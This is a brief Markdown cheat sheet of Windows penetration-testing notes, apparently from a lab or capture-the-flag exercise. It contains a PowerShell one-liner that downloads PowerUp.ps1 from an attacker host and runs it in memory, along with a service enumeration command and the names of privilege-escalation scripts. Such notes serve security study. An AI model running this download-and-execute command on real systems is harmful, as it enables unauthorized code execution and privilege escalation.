 - `cat` = `type`

# Powershell

```
echo IEX ((New-Object System.Net.WebClient).DownloadString('http://10.10.14.9:8000/PowerUp.ps1')) | powershell -noprofile -
```

# Services

- List all: `sc query state= all`

# Prev Escalation
- PowerUp.ps1
- Sherlock.ps1
